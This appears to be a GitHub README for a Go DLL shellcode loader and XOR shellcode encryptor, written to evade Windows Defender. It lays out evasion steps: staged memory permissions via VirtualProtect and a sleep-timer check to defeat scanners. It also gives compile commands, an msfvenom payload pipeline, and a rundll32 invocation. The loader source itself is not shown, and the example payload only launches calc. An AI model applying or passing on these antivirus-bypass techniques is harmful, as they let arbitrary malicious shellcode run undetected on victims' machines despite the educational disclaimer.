 # DLL Shellcode Loader & Shellcode Encryption

This project demonstrates the creation of a DLL shellcode loader in Golang tailored for Windows environments, aiming to bypass specific security measures, particularly Windows Defender  Moreover, it explores a technique to encrypt shellcode using XOR encryption, making it more elusive to AV static detection.

## UPDATES:
04/01/2024 - Detected and signatured by defender

0## 4/01/2024 - Avoiding Detection by Defender: Code Update Recommendations

To ensure your code does not get flagged by Windows Defender, consider the following updates:

1. **Allocate Memory with Read/Write Permissions**: Start by allocating memory that has read/write access.
2. **Write Shellcode into Allocated Memory**: After memory allocation, write your shellcode into this memory space.
3. **Change Memory Permissions with VirtualProtect API**: Once the shellcode is in place, use the VirtualProtect API to modify the memory permissions to read/execute.
4. **Implement a Timer Check**:
    - **Start Time Comparison**: Add a check to compare the start of the sleep timer to the current system time.
    - **End Time Verification**: After the sleep duration, compare the current system time again to ensure that the full time has passed.
    - **Exit on Fast Forward**: If the full time has not elapsed (which could indicate a scanner fast-forwarding through sleep timers), then exit the program. This step helps in evading scanners that skip through sleep timers.

        

# Full walkthrough
### <a href="https://krptyk.com/2023/09/20/encrypting-shellcode-to-evade-av/" target="_blank">Encrypting Shellcode to Evade AV</a>

### <a href="https://krptyk.com/2023/09/20/dll-shellcode-loader-bypass-defender/" target="_blank">DLL Shellcode Loader in Go</a>


## Disclaimer

The tutorials and code shared through this project are for educational purposes only. Misuse of this information and code for malicious activities is unlawful and unethical. The creators take no responsibility for any misuse.

## Getting Started

### Environment Setup

- Development Environment: Kali Linux
- Target Environment: Windows with AMD64 architecture

Compile command for building the loader:


    CC=x86_64-w64-mingw32-gcc GOOS=windows GOARCH=amd64 CGO_ENABLED=1 go build -buildmode=c-shared -o bypassdll.dll KrptGoLoader.go


## Dependencies

For the DLL Shellcode Loader:

    package main
    
    // #cgo windows CFLAGS: -D_WIN32
    // #cgo windows LDFLAGS: -lntdll
    // #include <windows.h>
    // #include <stdlib.h>
    import "C"
    
    import (
        "fmt"
        "syscall"
        "time"
        "unsafe"
    )

For the XOR Encryption of Shellcode:

    package main
    import (
      "flag"
      "fmt"
      "io/ioutil"
      "os"
    )

## Creating the DLL Shellcode Loader

  Compilation Environment: Use Kali Linux as the development environment. The compile command utilizes the mingw-w64 GCC compiler targeting a Windows OS with an AMD64 architecture. It is built as a shared library with output as bypassdll.dll¹.

  Importing Necessary Packages: Import the necessary packages and libraries to facilitate the loader’s functionalities. The Windows and standard library headers are imported in the C space, while in Go, formats, system calls, time, and unsafe packages are imported to work with low-level memory and system services¹.

## Encrypting the Shellcode

  XOR Encryption for Shellcode Obfuscation: XOR encryption is a simple and effective technique for encrypting shellcode, aiding in the evasion of AV static detection².

  Creating the Go Code: The Go program is designed to take raw binary data as input, perform an XOR operation on it, and produce encrypted shellcode as output².

## Usage

  ### KrptXOR.go
    msfvenom -p windows/x64/exec CMD=calc -f raw 2>/dev/null | go run GoXOR.go -t go -x 31 >> shellcode.txt

  ### KrptLoader.go
    CC=x86_64-w64-mingw32-gcc GOOS=windows GOARCH=amd64 CGO_ENABLED=1 go build -buildmode=c-shared -o bypassdll.dll bypassdll.go
    C:\>Rundll32.exe .\KrptLoader.dll,ExecuteShellcode
    
